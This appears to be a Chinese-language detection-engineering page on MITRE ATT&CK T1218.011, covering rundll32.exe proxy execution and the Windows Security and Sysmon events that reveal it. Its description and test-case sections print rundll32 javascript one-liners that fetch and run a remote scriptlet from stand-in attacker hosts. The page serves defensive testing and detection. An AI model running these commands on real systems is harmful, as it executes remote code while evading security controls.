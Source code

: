 # T1218.011-Win-通过Rundll32的异常网络链接

## 描述

攻击者可能利用**rundll32.exe**调用受信任的动态链接库（DLL）或脚本，代理执行恶意代码，规避安全工具的检测（MITRE ATT&CK T1218.011）。`rundll32.exe`是Windows内置工具，用于加载DLL并调用指定函数，常用于合法操作，因此常被白名单或误报。攻击者可通过`rundll32.exe`执行恶意DLL或JavaScript，触发异常网络连接（如C2通信、恶意载荷下载），实现防御规避、初始访问或持久化。

异常网络连接是`rundll32.exe`执行恶意代码的常见指标。例如，攻击者可能使用以下命令加载远程脚本：
```cmd
rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://malicious.com/malicious.sct")
```
此技术已被恶意软件（如Poweliks）使用，触发非预期的出站连接，暴露攻击行为。

## 测试案例

### 测试1：Rundll32.exe触发异常网络连接

攻击者通过`rundll32.exe`执行JavaScript，加载远程恶意脚本，触发外部网络连接。

**环境要求**：
- 系统：Windows（支持Windows 2003及以上）
- 工具：`rundll32.exe`（系统自带）
- 权限：普通用户
- 路径：
  - `C:\Windows\System32\rundll32.exe`
  - `C:\Windows\SysWOW64\rundll32.exe`

**攻击命令**：
```cmd
rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://attacker.com/malicious.sct")
```

**说明**：
- `javascript:`：调用`mshtml.dll`的`RunHTMLApplication`函数执行JavaScript。
- `GetObject("script:")`：从远程URL加载恶意脚本（如SCT文件）。
- 触发对`https://attacker.com`的网络连接。

**清理命令**：
```cmd
taskkill /IM rundll32.exe /F
```

**日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建和网络连接事件。

## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`rundll32.exe`的执行（需启用进程跟踪审核）。
  - Event ID 5156：Windows过滤平台（WFP）连接，记录出站网络连接。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`rundll32.exe`的命令行和父进程信息。
  - Event ID 3：网络连接，记录`rundll32.exe`的出站连接。
  - Event ID 7：镜像加载，记录加载的DLL（如`mshtml.dll`）。
